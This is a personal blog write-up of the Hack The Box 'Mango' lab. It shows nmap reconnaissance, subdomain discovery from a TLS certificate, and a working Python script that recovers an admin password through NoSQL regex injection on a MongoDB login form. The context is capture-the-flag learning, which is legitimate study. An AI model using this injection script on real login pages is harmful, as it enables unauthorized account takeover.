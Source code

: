 ```yaml
---
title: "Hack The Box: Mango"
date: DATE
draft: false
tags: ["pentesting","Hack The Box"]
reads: 2
description: "Mango was the first Hack The Box I got user-level access to! Here's how I used nmap, tls certificates, and  NoSql injection to get access to the box."
---
```

Mango was the first Hack The Box box I got user-level access to!  To get in, I started off with a port scan to see what services were running. 
```
namp -sC -sC -oA mango 10.10.10.162
# Nmap 7.80 scan initiated Wed Dec 18 10:44:55 2019 as: nmap -sC -sV -oA mango 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.030s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 18 10:45:11 2019 -- 1 IP address (1 host up) scanned in 15.62 seconds
```


From the scan, I knew there were two http/https servers and ssh was running. I  looked at what was hosted on these web servers.  On port 80 I didn't find anything. But on port 443 I found a website that looked like a clone of the google search page. I ran gobuster against the server on port 80 but did not find any webpages.

![search page](/img/mango/search.png)

The only link on the page that went anywhere was the Analytics button. I was a type of business analytics software called [Mango Solutions](https://mango-solutions.com).
![analytics screenshot](/img/mango/analytics.png)


I looked up Mango Solutions in [exploit db](https://www.exploit-db.com) but I didn't find anything that was applicable. I tried uploading malformed data to see if I could exploit the web service but there were no interesting error messages. I then took a look at the TLS certificate and found another subdomain.
![cert.png](/img/mango/cert.png)
So I changed my /etc/hosts to include the new domain.
```
10.10.10.162 staging-order.mango.htb
10.10.10.162 mango.htb
```
When I pointed the browser at staging-order.mango.htb, I found a login page.
![login screen](/img/mango/login.jpg)
I then tried different types of injections on the login page. I eventually stumbled upon the nosql injections on [payload all things](https://github.com/swisskyrepo/PayloadsAllTheThings). And I was able to get passwords for the accounts mango and admin. I guessed that there was an account with the username admin.
``` python
import requests
import string

username = 'admin'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
                post_data = {'username':username,
                             'password[$regex]':"^" + payload,
                             'login':'login'}
                print(payload)
                r = requests.post(url,
                                  data=post_data,
                                  allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 20:
                        print("\npassword: " + payload)

                        exit(0)
                    break
```
This script works because we can make unauthenticated requests to mongo db. By using a regular expression to match on the first characters of the password, we can enumerate the password. The http status code 302 tells us that our prefix matches the password. Using the found admin credentials I was unable to ssh onto the box. I was able to get onto the box using the mango credentials. However, I realized that the `user.txt` was only readable by the admin account. I tried logging in locally using the admin creds and I got access to the user.txt.
```
su admin
```
